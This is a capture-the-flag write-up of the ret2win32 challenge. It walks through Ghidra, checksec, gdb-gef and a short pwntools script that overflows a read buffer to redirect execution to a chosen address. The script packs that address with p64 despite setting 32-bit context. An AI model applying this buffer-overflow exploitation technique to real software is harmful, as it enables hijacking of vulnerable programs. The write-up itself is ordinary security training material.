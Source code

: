 # This is the Documentation of the ret2win ctf challenge


## Step-by-Step Guide


This document outlines the steps taken to identify and exploit a buffer overflow vulnerability
using tools like Ghidra, _man_, _gdb-gef_, and Python. Each step is critical to understanding
the target system, identifying the vulnerability, and creating a succesful exploit.


### 1. Navigating Ghidra

**Description:**
Ghidra is a powerful open source reverse engineering tool that allows you to decompile and
analyze binary files.

* We first Launch Ghidra and created a new project

* We then import the target binary into the project

* We began to analyze the _main_ function, as it's typically the entry point of the program


### 2. Analyzing the Code and File

While navigating the binary in Ghidra our objective was to identify potential vulernabilities,
we were able to inspect function calls and examine the calls to other functions.

**Observations:**
* There was a function call to _read_ and we considered it a potential point of vulenrability,
espicially since it handled user input without proper bounds checking

* This is when we _file_ the ret2win32 file:
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked,
interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0,
BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped

* This is when we _checksec_ the ret2win32 file: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      SymbolsFORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72 Symbols       No    0               3               ret2win32  


### 3. Understanding Function Behavior with man

**Description:**
The _man_ command in Linux provides a manuel for various functions, offering insights into
their behavior and potential vulnerabilities. After running the command on _read_, we were able
to understand how it works, including it's parameters and potential security implications.

**Key Points:**

* _read_ reads data from a file descriptor into a buffer

* It is crucial to ensure that the buffer is large enough to prevent overflow

* The code we examine did not provide a big enough buffer


### 4. Identifying the Target Memory Address

**Description:**
Finding the memory address you want to return to after exploiting the buffer overflow is
critical for hijacking.

* **Analyze the Binary:** Using Ghidra to identify the memory address you want to redirect
execution to.

* **Record the Address:** This address will be used later in the payload to overwrite the
return address. 

### 5. Finding the Buffer Offest using gdb-gef

**Description:**
_gdb-gef_ is a powerful extension for GDB that simplifies the process of debugging and exploit
development. We were able to use this tool to run the program and find the exact offset where
the buffer overflow occurs.


### 6. Writing the Exploit Code in Python
```python
 from pwn import * 

 # Sets information about the binary that affects how the pointer is defined
 context.bits = 32

 # initalizing the process
 pw = process("./ret2win32")

 # attach the gdb debugger to the process and set a break point at a certain memory address
 gdb.attach(pw, gdbscript = 'b *0x804862c')

 # Recieve data until the > symbol
 pw.recvuntil(b'>')

 # sends the right amount of A's to buffer overflow while also sending the address we want
 pw.sendline(b'A' * 44 + p64(0x804862c))

 # allows us to interact with the process
 pw.interactive()

```

### Conclusion
Following these steps provides a structered approach to identifying and exploiting buffer
overflow vulnerabilities. By leveraging tools like Ghidra, _man_, _gdb-gef_, and Python,
you can analyze the target binary, identify weaknesses, and create effective exploits. 
